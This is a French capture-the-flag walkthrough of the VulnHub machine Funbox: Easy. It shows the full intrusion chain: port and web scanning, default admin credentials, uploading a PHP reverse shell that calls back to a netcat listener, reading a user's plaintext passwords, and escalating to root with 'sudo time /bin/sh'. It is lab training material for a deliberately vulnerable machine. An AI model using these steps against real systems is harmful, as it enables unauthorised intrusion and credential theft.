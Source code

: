 ```yaml
---
title: "CTF Funbox: Easy"
date: 2021-04-25
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/funbox-easy,526
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.1** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.58`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir FunboxEasy && cd FunboxEasy`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -sV -sT -p- $IP -oN nmap.txt
Nmap scan report for funbox3.home (192.168.1.58)
Host is up (0.00052s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx?
```

On a un serveur **SSH** sur le port **22** , un serveur **Apache 2** sur le port **80** et un serveur **MySQL** sur le port **33060**.

Astuce : vous pouvez ajouter le domaine _funbox3.home_ dans le fichier `/etc/hosts` avec **Vim** (ou un autre éditeur de texte).

```bash
$ sudo vim /etc/hosts
192.168.1.58    funbox3.home
```

Scannons le port **80** avec **Nikto** pour avoir d'eventuelles informations sur la sécurité du serveur.

```bash
$ nikto -h http://$IP -o nikto.txt
+ Server: Apache/2.4.41 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Multiple index files found: /index.html, /index.php
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 5abac58e39aeb, mtime: gzip
+ Allowed HTTP Methods: OPTIONS, HEAD, GET, POST
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /secret/: This might be interesting...
+ OSVDB-3092: /store/: This might be interesting...
+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
```

Sur la page [/store](http://funbox3.home/store), en bas il y a un lien "Admin login" qui amène sur [/store/admin.php](http://funbox3.home/store/admin.php) et en essayant avec "admin:admin", ça passe du premier coup. En cliquant sur "Add new book", on peut uploader un fichier quelconque. On prépare donc un webshell en PHP.

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php .
$ vim php-reverse-shell.php
/$ip
```

Puis on lance un serveur **Netcat** sur le port **1234** (ou celui de votre choix) `nc -lnvp 1234`.

En cherchant où les fichiers sont uploadés, on trouve le lien du répertoire [/store/bootstrap/img](http://funbox3.home/store/bootstrap/img). On clique sur notre webshell afin de l'exécuter.

## Pénétration

Dans le terminal avec **Netcat**, la connexion avec le serveur est établi.

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

En remontant dans le répertoire "/home", on découvre un utilisateur "tony" avec un fichier "password.txt".

```bash
$ cat /home/tony/password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
```

On tente la connexion SSH.

```bash
$ ssh tony@localhost
tony@localhost's password: yxcvbnmYYY
```

## Escalation

On regarde les privilèges que possèdent cet utilisateur.

```bash
$ sudo -l
User tony may run the following commands on funbox3:
(root) NOPASSWD: /usr/bin/yelp
(root) NOPASSWD: /usr/bin/dmf
(root) NOPASSWD: /usr/bin/whois
(root) NOPASSWD: /usr/bin/rlogin
(root) NOPASSWD: /usr/bin/pkexec
(root) NOPASSWD: /usr/bin/mtr
(root) NOPASSWD: /usr/bin/finger
(root) NOPASSWD: /usr/bin/time
(root) NOPASSWD: /usr/bin/cancel
(root) NOPASSWD:
/root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

Sur [GTFOBins](https://gtfobins.github.io/gtfobins/time/#sudo), on regarde quelle commande permet d'utiliser la commande "time" en tant que "sudo" dans le terminal.

```bash
sudo /usr/bin/time /bin/sh
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
id
uid=0(root) gid=0(root) groups=0(root)
```

Dans le répertoire de l'utilisateur "root", on trouve le flag dans le fichier "root.flag" `cat /root/root.flag`.
